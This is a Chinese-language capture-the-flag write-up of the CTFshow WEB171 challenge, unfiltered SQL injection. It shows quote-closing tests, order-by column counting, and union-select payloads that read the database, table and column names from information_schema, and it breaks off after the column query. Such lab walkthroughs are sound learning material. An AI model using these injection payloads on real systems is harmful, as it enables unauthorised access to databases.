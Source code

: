 ```yaml
---
{"dg-publish":true,"title":"CTFshow_SQL注入_无过滤注入","dg-path":"安全/靶场/CTFshow_SQL注入_无过滤注入.md","permalink":"/安全/靶场/CTFshow_SQL注入_无过滤注入/","dgPassFrontmatter":true}
---
```


# WEB171 无过滤注入1
![Pasted image 20240810101131.png](/img/user/picture/Pasted%20image%2020240810101131.png)
![Pasted image 20240810101148.png](/img/user/picture/Pasted%20image%2020240810101148.png)
这里给了查询语句，但是这个和真实的查询语句好像其实并不相同
这里给的信息也就是在这个表中应该是有一个username叫flag的用户，而这个查询语句不会显示这个用户，我们应该想办法让他显示出来



尝试使用
```
1 ' #
```
闭合，发现报错

使用
```
1 ' --+
```
闭合，成功
![Pasted image 20240810101410.png](/img/user/picture/Pasted%20image%2020240810101410.png)

再使用order by 查看字段数
```
1 ' order by 3--+    成功
1 ' order by 4--+    报错
```


使用联合查询union获取信息

获取数据库名 `ctfshow_web`
```
0 ' union select 1,database(),3 --+
```
![Pasted image 20240810101839.png](/img/user/picture/Pasted%20image%2020240810101839.png)

获取表名 `ctfshow_user`
```
0 ' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

![Pasted image 20240810102102.png](/img/user/picture/Pasted%20image%2020240810102102.png)


获取表的字段名`id,username,password`

```
0 ' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='ctfshow_user' --+
```
